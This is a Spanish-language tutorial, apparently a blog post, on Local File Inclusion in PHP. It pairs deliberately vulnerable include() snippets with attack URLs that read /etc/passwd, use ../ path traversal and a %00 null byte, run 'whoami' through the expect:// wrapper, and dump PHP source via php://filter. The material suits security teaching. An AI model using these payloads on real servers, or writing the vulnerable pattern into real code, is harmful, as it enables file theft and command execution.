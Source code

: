 ```yaml
---
title: Local File Inclusion (LFI)
published: true
---
```


La vulnerabilidad 'Local File Inclusion', o en sus siglas 'LFI', permite a un atacante leer archivos del servidor vulnerable. Esta afección se produce debido a malas prácticas durante la programación de una página web. 

Dependiendo de la importancia, esta vulnerabilidad puede llevar al atacante a:
	
* RCE (Remote Code Execution)
* XSS (Cross-Site Scripting)
* DoS (Denial Of Service)

Un ejemplo muy básico sería el siguiente script de PHP:

```php
<?php
	$file = $_GET['filename'];
	include($file);
?>
```

Donde podemos leer cualquier archivo del sistema, en este caso el '/etc/passwd'

```
https://localhost/lfi.php?filename=/etc/passwd
```

Es importante aclarar que esta no es solo una vulnerabilidad de PHP, también está presente en otros lenguajes como lo es JSP o ASP.

### [](#header-3)Directory Path Traversal

Es posible que en el código se nos limite a acceder a archivos que se ubican únicamente en la ruta establecida, en este caso '/var/www/html/'.

```php
<?php
	$file = $_GET['filename'];
	include("/var/www/html/" . $file);
?>
```

Sin embargo, podemos "escaparnos" de la ruta establecida si añadimos '../', pudiendo así listar contenido más allá de '/var/www/html/'.

```
https://localhost/lfi.php?filename=../../../etc/passwd
```

### [](#header-3)Null Byte

De igual manera, es posible que en el código se nos limite a acceder a archivos con únicamente de la extensión establecida, en este caso 'PHP'.

```php
<?php
	$file = $_GET['filename'];
        require($file . ".php");
?>
```

De modo que cuando intentemos leer el archivo '/etc/passwd', o cualquier otro archivo, lo que estariamos leyendo en realidad sería el archivo '/etc/passwd.php', el cual no existe. Sin embargo, si añadimos el nullbyte (%00) al final de nuestra cadena de ataque, el '.php' no será tenido en cuenta. 

```
https://localhost/lfi.php?filename=/etc/passwd%00
```

### [](#header-3)Wrappers

PHP cuenta con una serie de "wrappers", los cuales a menudo pueden ser abusados, por mencionar algunos tenemos:

#### [](#header-4)expect://

Nos permite una ejecución remota de comandos (RCE).

```
https://localhost/lfi.php?filename=expect://whoami
```

#### [](#header-4)filter://

Nos permite codificar archivos del sistema a través de diferentes métodos como podría ser Base64 o ROT13. Es bastante útil si necesitamos leer un archivo en PHP, ya que recordemos, este es un lenguaje interpretado, por lo que si intentamos leer un archivo PHP, no veríamos nada.

```
https://localhost/lfi.php?filename=php://filter/convert.base64-encode/resource=test.php
```
